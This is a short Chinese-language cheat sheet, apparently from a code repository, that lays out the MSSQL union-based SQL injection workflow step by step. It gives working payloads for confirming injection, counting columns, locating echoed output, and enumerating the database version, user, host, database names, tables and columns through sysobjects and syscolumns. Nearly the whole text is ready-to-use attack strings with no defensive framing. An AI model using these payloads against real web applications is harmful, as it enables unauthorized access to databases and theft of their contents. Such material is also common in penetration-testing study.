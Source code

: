 # mssql

## 联合查询注入流程

1. 判断是否存在注入

   ```sql
   ?id=1' and 123=123--
   ?id=1' and 123=12--
   ?id=1' and exists(select * from sysobjects) -- #判断是否为mssql数据库
   ```

2. 判断字段数

   ```
   ?id=1' order by 3--
   ```

3. 判断回显

   ```
   ?id=-1' union select 1,2,3--
   ```

4. 查询数据库信息

   相关变量和函数

   ```
   @@version  #获取数据库版本
   user  #获取当前数据库用户名
   host_name()  #获取当前连接数据库的用户名
   @@servername  #获取数据库的主机名
   db_name()  #获取当前数据库名,db_name(N)可用于遍历其他数据库
   ;select user  #验证是否支持多语句堆叠注入
   ```

   相关payload

   ```
   ?id=-1' union select 1,db_name(),@@version--
   ?id=-1' union select 1,host_name(),@@servername--
   ?id=-1' union select 1,user,3--
   ?id=-1' union select 1,(select top 1 name from sys.databases where name not in(select top 6 name from sys.databases)),3-- #查询第7行的数据
   ?id=-1' union select 1,db_name(1),3-- #查询第一个数据库名
   ```

   ```
   ?id=-1' union select 1,(select top 1 name from sysobjects where xtype = 'U' and name not in(select top 0 name from sysobjects where xtype='U')),3--
   ?id=-1' union select 1,(select top 1 name from syscolumns where id=(SELECT top 1 id FROM sysobjects where name='users' and id not in(select top 0 id from sysobjects where xtype='U')) and name not in(select top 2 name from syscolumns where id=(SELECT top 1 id FROM sysobjects where name='users' and id not in(select top 0 id from sysobjects where xtype='U')))),3--
   ```
